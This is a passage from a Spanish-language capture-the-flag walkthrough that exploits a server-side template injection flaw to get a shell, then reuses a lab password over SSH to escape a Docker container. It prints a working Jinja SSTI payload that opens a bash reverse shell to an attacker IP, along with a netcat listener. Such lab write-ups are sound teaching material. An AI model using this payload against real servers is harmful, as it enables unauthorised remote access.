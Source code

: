 *Lo ingresamos dentro de la función os.popen()*

{% raw %}
```python
{{cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.20/4444 0>&1"').read()}}
```
{% endraw %}

#### Ahora solamente ponemos Netcat a la escucha por el puerto 4444 y ejecutamos el payload anterior dentro del campo vulnerable a SSTI (Server-Side Template Injection) como vimos anteriormente.


```bash
nc -lvp 4444
```

![](https://i.ibb.co/0mjcbnS/netcat.png)

##### Si miramos nuestra dirección IP del hostname, vemos que al parecer podríamos estar dentro de un contenedor de Docker. Adicionalmente estamos como usuario root dentro de este contenedor.

### Port Forwarding

#### Primero encontramos la flag de usuario en el directorio $HOME del usuario "augustus":

```bash
cd /home/augustus
cat user.txt
```

#### Ahora necesitamos movernos dentro del servidor y pasar fuera del contenedor hacia la máquina local. 

##### Como vimos antes, la contraseña ya se utilizó más de una vez y quizás fuera del contenedor. También puede que exista un usuario "augustus" en la máquina local, por lo que procedemos a intentar conectarnos por SSH desde nuestro host (172.19.0.2) hacia el host 172.19.0.1:

```bash
ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator
```

![](https://i.ibb.co/Hpq30pf/ssh-augustus.png)

#### Al ejecutar "hostname -I" vemos que ya estamos dentro del host local por la dirección IP de la máquina (10.10.11.130):

